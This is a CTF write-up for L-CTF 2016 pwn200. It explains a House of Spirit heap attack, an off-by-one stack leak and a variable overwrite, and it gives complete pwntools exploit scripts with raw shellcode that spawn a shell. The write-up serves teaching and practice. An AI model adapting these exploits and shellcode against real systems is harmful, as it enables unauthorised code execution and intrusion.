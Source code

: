 ### L-CTF 2016 pwn200
#### 漏洞简介
**The house of Spirit**
> The House of Spirit is a little different from other attacks in the sense that it involves an attacker overwriting an existing pointer before it is 'freed'. The attacker creates a 'fake chunk', which can reside anywhere in the memory (heap, stack, etc.) and overwrites the pointer to point to it. The chunk has to be crafted in such a manner so as to pass all the security tests. This is not difficult and only involves setting the size and next chunk's size. When the fake chunk is freed, it is inserted in an appropriate binlist (preferably a fastbin). A future malloc call for this size will return the attacker's fake chunk. The end result is similar to 'forging chunks attack' described earlier.

[The House Of Spirit](https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit.html)


#### 程序运行
1. **初始内容**
```
who are u?
Bill
Bill, welcome to xdctf
give me your id ~~?
001
give me money~
10000
```
2. **主要内容**
```
=======EASY HOTEL========
1. check in
2. check out
3. goodbye
```
**check in**: `malloc`
**check out**: `free`
**good bye**: `exit`
#### 程序分析
**1. checksec**

![result](./02.png)

**2. 漏洞一 (`off by one`)**

![result](./01.png)

> 当输入`48`个字符时, 会触发`off by one`漏洞, 将`0x400A8E`函数栈帧`RBP`打印出来.

**2. 漏洞二 (变量覆盖)**

![result](./03.png)

### 漏洞利用
**两种思路**
1. **思路(非HOS)**: 初始时输入`shellcode`, 泄露`RBP`,找出`Shellcode`地址. 覆盖dest变量值为`free@got`, `buf`中为`shellcode_addr + 其他任意字符`, 最后:输入`2`, 执行`free`(就是执行我们的`shellcode`).
```
#coding = utf8
from pwn import *
context(log_level="debug")

p = process('./pwn200')
elf = ELF('./pwn200')
free_got = elf.got["free"]

gdb.attach(p)
p.recvuntil('u?\n')

shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
p.send(shellcode+"a"*(48-len(shellcode)))

ebp = u64(p.recvuntil(' me your id ~~?\n')[48:48+6].ljust(8,'\x00')) # leak stack address
print "ebp = "+hex(ebp)
offset = 0x00007fff401d62e0 - 0x00007fff401d6290
shellcode_addr = ebp - offset
print "shellcode_addr = " + hex(shellcode_addr)
p.sendline('0') #id

p.recvuntil('\n')

payload = p64(shellcode_addr)
p.send(payload + '\x00'*(0x38-len(payload)) + p64(free_got))  #the juck data must be '\x00' in the got!
p.recvuntil('choice :')
p.sendline('2')
p.interactive()
```
2.**思路(HOS)**: 修改`0x400A29`函数的返回值地址为`shellcode`地址, 退出即可.
**leak address**
```
payload  = ''
payload += shellcode.ljust(48)
p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))
shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # 修改函数返回值地址用
```
**free(fake_addr)**
```
data = p64(0)*4 + p64(0) + p64(0x41) # p64(0)*4, strcpy不会复制任何字符到fake_addr
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)
```
**malloc**
```
p.recvuntil('choice : ')
p.sendline('1')
p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40, 大小要和fastbin中的大小一致, 这样才会返回我们的fake_addr
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')
```
**Quit**
```
p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### The Whole EXP
```
from pwn import *

context.log_level = 'debug'
# p = remote('127.0.0.1', 7777)
p = process('./pwn200')

free_got = 0x0000000000602018

shellcode = asm(shellcraft.amd64.linux.sh(), arch = 'amd64')

gdb.attach(p)
#part one
payload  = ''
payload += shellcode.ljust(48)

p.recvuntil('who are u?\n')
p.send(payload)
p.recvuntil(payload)

rbp_addr = u64(p.recvn(6).ljust(8, '\x00'))

shellcode_addr = rbp_addr - 0x50 # 20H + 30H
print "shellcode_addr: ", hex(shellcode_addr)
fake_addr = rbp_addr - 0x90 # offset 0x40 to shellcode, 0x400a29 return address


p.recvuntil('give me your id ~~?\n')
p.sendline('32') # id
p.recvuntil('give me money~\n')


#part two
#32bytes padding + prev_size + size + padding + fake_addr
data = p64(0) * 4 + p64(0) + p64(0x41)		# no strcpy
data = data.ljust(56, '\x00') + p64(fake_addr)
print data
p.send(data)

p.recvuntil('choice : ')
p.sendline('2') 	# free(fake_addr)

p.recvuntil('choice : ')
p.sendline('1') 	#malloc(fake_addr) #fake_addr

p.recvuntil('long?')
p.sendline('48')    # 48 + 16 = 64 = 0x40
p.recvline('48')    # ptr = malloc(48)

data = 'a' * 0x18 + p64(shellcode_addr) # write to target_addr
data = data.ljust(48, '\x00')

p.send(data)

p.recvuntil('choice')
p.sendline('3')

p.interactive()
```
### Related Link
[堆之House of Spirit ](https://www.anquanke.com/post/id/85357)(EXP不行)
